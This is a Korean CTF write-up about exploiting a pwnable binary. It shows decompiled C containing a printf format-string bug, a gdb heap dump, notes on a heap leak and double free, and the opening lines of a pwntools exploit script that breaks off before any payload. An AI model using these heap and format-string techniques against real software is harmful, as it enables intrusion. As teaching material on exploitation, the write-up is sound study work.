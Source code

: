 free.. 그 다음 item pointer도 함께 지워버리면서 free한다. 사실 완벽하게는 분석이 안된게 어떨때는 더블 프리가 되고 어떨때는 안되는데 아마 그 chunk pointer 구조체+ item pointer에 따라서 갈리는거 같다. 

```c
unsigned __int64 __fastcall view_order(__int64 a1)
{
  unsigned int i; // [rsp+14h] [rbp-3Ch]
  char *format; // [rsp+18h] [rbp-38h]
  char s; // [rsp+20h] [rbp-30h]
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( *(_QWORD *)(a1 + 16) )
  {
    snprintf(&s, 0x28uLL, "Name: %s\n", *(_QWORD *)(a1 + 16));
    printf("%s", &s);
  }
  format = *(char **)a1;
  for ( i = 0; *(_DWORD *)(a1 + 24) > (signed int)i; ++i )
  {
    printf("Item #%d: ", i);
    printf(format);
    putchar(10);
    format = (char *)*((_QWORD *)format + 3);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

출력 메뉴.. snprintf가있는데 뒤에 개행이계속 붙어서 사용하지 않았다. 그리고 아래 포맷스트링 취약점이 있는데 format 저녀석은 item name pointer이다.  chunk count 만큼 포문을 돈다. 

```c
gdb-peda$ x/32gx 0x603000
0x603000:	0x0000000000000000	0x0000000000000031
0x603010:	0x0000000000603040	0x00000000006030a0
0x603020:	0x0000000000000000	0x0000000000000003
0x603030:	0x0000000000000000	0x0000000000000031
0x603040:	0x726f662072756f46	0x00000072756f4620
0x603050:	0x0000000000000000	0x0000000000603070
0x603060:	0x0000000000000000	0x0000000000000031
0x603070:	0x007365696767754e	0x0000000000000000
0x603080:	0x0000000000000000	0x00000000006030a0
0x603090:	0x0000000000000000	0x0000000000000031
0x6030a0:	0x00007974736f7246	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
```

0x603010에 item chunk를 시작으로 0x603058에 다음 item pointer를 타고타고 출력해준다.

아무튼 ! 일단 heap leak이 되고 double free가 되니 저 구조체 포인터를 덮어서 leak + 포맷스트링을 했다. 이것도 여러 스테이지로 나누어야 한다 ㅠ 

```python
from pwn import *

t = process('./pwnable2')
#t = remote('stack.overflow.fail', 9003)

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def name(a):
	r(">")
	s("1")
	r("name?")
	s(str(a))

```